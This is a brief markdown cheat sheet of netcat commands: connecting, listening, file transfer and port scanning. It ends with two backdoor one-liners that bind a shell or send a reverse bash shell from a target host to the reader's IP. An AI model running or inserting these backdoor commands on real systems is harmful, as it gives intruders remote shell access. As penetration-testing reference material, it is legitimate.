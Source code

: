 ```yaml
---
tags:
  - linux
  - packages
  - networking
---
```

Connect to arbitrary port at IP, Netcat client mode
```shell
nc $target $remotePort
```

Listen on arbitrary local port, Netcat listener mode
```shell
nc -l -p $localPort
```

Push file from client to listener
```shell
nc -l -p $localPort > $outFile
```

Pull a file from listener to client
```shell
nc -l -p $localPort < $inFile
```

Port scan
```shell
nc -v -n -z -w1 $target ${startPort}-${endPort}
```

Listening backdoor shell
```shell
nc -l -p $localPort -e /bin/bash
```

Reverse backdoor shell to your IP from target host
```shell
nc $yourIP $port -e /bin/bash
```




